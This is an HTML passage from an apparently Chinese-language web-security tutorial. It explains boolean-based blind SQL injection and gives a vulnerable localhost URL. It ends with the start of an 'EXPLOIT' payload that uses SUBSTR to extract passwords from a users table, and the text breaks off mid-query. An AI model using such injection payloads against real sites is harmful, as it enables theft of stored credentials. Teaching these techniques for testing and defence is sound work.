     </user></users></span></code></pre></blockquote><h2 nodeIndex="89">4 漏洞类型</h2><h3 nodeIndex="90">4.1 注入漏洞</h3><h4 nodeIndex="363"><span nodeIndex="364">4.1.1 Blind SQL Injection (boolean)</span></h4><p class=" _RIL_KEEPER_CLASS_" nodeIndex="91"><span nodeIndex="365">基于布尔型的盲注</span>: HTTP请求的响应体中不会明确的返回SQL的错误信息, 当把参数送入程序查询时，并且在查询条件为真的情况下返回正常页面，条件为假时程序会重定向到或者返回一个自定义的错误页面。</p><p class=" _RIL_KEEPER_CLASS_" nodeIndex="92"><span nodeIndex="366">漏洞地址</span>:    <br nodeIndex="367">http://127.0.0.1:65412/?id=2</p><p class=" _RIL_KEEPER_CLASS_" nodeIndex="93"><span nodeIndex="368">EXPLOIT</span>:</p><blockquote nodeIndex="94"><pre nodeIndex="95"><code nodeIndex="369"><span nodeIndex="370">http://127.0.0.1:65412/?id=2 AND SUBSTR((SELECT password FROM users WHERE